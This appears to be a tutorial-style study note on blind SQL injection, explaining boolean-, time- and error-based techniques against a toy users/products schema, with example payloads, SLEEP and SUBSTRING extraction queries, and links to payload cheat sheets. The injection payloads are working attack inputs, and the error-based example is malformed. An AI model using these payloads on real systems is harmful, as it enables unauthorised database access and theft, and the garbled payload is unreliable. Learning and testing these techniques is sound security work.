 Blind SQL injection can be tricky. 

The target application is vulnerable to SQL injection however, the response does not contain the results of the query. This is important to note. The response does not contain the results of the query.

UNION attacks become ineffective as we rely on seeing the results. Instead, we can use conditional responses to extract information.

Boolean-based Blind SQLi

' AND 1=1 -- - 
' AND 1=2 -- - 

- The 1=1 is always true, so if the application response normally, it indicates the injection was successful.
- To test for Blind SQLi we change 1=1 to 1=2. If the response changes, it suggests the application might be vulnerable.

This is important to note because if providing a true statement the database will return back information, if we provide it a false statement the application might behave differently, either remove things from the results, add more information to the response, the point of this is to see how the application reacts and this proves we can ask it YES or NO : TRUE OR FLASE questions.

Time-based Blind SQLi

SELECT SLEEP(10)

Here, sleep(10) forces the database to wait for 10 seconds if the condition is true. If the response from the application is delayed by about 10 seconds, it indicates the injection worked.

Error-based BlindSQLi

' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT database(),1,1)) = 'a) THEN CAST(' AS INT) ELSE 'a) END) -- ';

Here, we're using the CASE statement to test a condition in the database. If the condition is true, an error is forced by trying to cast an empty string to an integer, which is not possible and causes a database error. If the condition is false, the query returns 'a', which does not cause an error. 

We can iterate over this process, adjusting the condition each time to extract information character by character from the database in a blind scenario where the error acts as a Boolean flag.

The point of this, is to be able to see how the web application handles errors through the SQL statement. If the application accepts the error and throws it back at us, we can extract information from the Error and see how we can proceed from there. If the application does not return anything we move on. This is essentially the same as asking True or False questions because we are seeing if the web application accepts the SQL statement and if the error is TRUE then it throws us an error.

Understanding SQLi Payloads: 
[https://www.db-fiddle.com/f/nLpyQDMd49iRygnY9H7CB8/5](https://www.db-fiddle.com/f/nLpyQDMd49iRygnY9H7CB8/5)

In the link above we see the SQL code:
```sql
-- Create a `users` table
CREATE TABLE `users` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(50) NOT NULL,
  `role` varchar(20) NOT NULL,
  PRIMARY KEY (`id`)
);

-- Insert test data into `users`
INSERT INTO `users` (`username`, `password`, `role`) VALUES
('Jessamy', 'password123', 'admin'),
('Jeremy', 'qwerty', 'user');

-- Create a `products` table
CREATE TABLE `products` (
  `id` int NOT NULL AUTO_INCREMENT,
  `name` varchar(100) NOT NULL,
  `description` text,
  `price` decimal(10, 2) NOT NULL,
  PRIMARY KEY (`id`)
);

-- Insert test data into `products`
INSERT INTO `products` (`name`, `description`, `price`) VALUES
('Laptop', '15-inch laptop with 8GB RAM', 1200.00),
('Smartphone', 'Latest model with 5.7-inch screen', 299.99),
('Coffee Maker', 'Brews coffee and has a timer', 49.99);

```


SQL Query for the Code above:
```sql
-- Simple SQL statements
-- SELECT * FROM users;
-- SELECT * FROM users WHERE username = 'Jessamy';
-- SELECT * FROM users WHERE username = 'Jessamy' and password = 'password123';
-- SELECT * FROM users WHERE username = 'Jessamy'-- ' and password = 'password123';
--

-- Substring
-- SELECT database()
-- SELECT substring(database(),1,1)

-- Booleans
-- SELECT * FROM products WHERE name = 'Laptop' AND 1=1;
-- SELECT * FROM products WHERE name = 'Laptop' AND 1=2;

-- Time delays
-- SELECT * FROM products WHERE name = 'Laptop' AND SLEEP(5);

-- Time delay substring
-- SELECT database()
-- SELECT IF(1=1,SLEEP(5),'a')
-- SELECT IF(SUBSTRING((SELECT database()),1,1)='a',SLEEP(5),'a')
-- SELECT IF(SUBSTRING((SELECT database()),1,1)='t',SLEEP(5),'a')
-- SELECT * FROM products WHERE name = 'Laptop' AND IF(1=1,SLEEP(5),'a')

-- Errors
-- SELECT IF(SUBSTRING((SELECT database()),1,1)='a',(SELECT table_name FROM information_schema.tables),'a')
-- SELECT IF(SUBSTRING((SELECT database()),1,1)='t',(SELECT table_name FROM information_schema.tables),'a')
```


Scripting Solutions for Blind SQLi

Tools vs Custom Scripts for Blind SQLi

- Tools tend to lead to a faster workflow
- Scripts can be more precise or customisable
- Scripts can help you develop your skills and understanding of an attack
- There are not many cases that warrant custom scripts

Payload Cheatsheet:
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

